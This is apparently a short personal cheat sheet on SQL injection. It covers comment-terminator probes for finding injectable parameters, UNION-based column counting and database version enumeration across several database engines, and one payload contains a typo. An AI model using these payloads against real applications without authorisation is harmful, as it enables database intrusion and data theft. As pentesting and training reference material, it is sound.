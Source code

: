 # Entry Point
if the response is unchanged after one of these payloads - the parameter might be vulnerable to SQLi.

Oracle / MSSQL / PostgreSQL / MySQL / SQLite
```
 -- 
' -- 
" -- 
 /*
' /* 
" /* 
```
MySQL
```
 # 
' # 
" # 
```
example query: SELECT role,fullname FROM users WHERE id='1' # '
# UNION attack
if data is returned in the response, the database can be enumerated using a union attack.
in this case, the first step is to figure out how many columns are returned by the query.
personally I like to supply an id or a username that does not exist so no row is returned,
and then unioning a row of my choice until it is returned by the application:
```
-1' UNION SELECT 1; # 
-1' UNION SELECT 1,2: # 
-1' UNION SELECT 1,2,3; # and so on ...
```
after some of the numbers we supplied are reflected in the response, we can replace them with
other builtin methods and attributes to further enumerate the database.
example query: SELECT name,issue_date,valid_until FROM tickets WHERE ticket_id="-1" UNION SELECT 1,2,3 /* "
# Version enumeration

PostgreSQL / MySQL / MariaDB
```
SELECT version()
```
MSSQL / MySQL
```
SELECT @@version
```
SQLite
```
SELECT sqlite_version()
```
Oracle
```
SELECT banner FROM v$version
SELECT version FROM v$instance
```
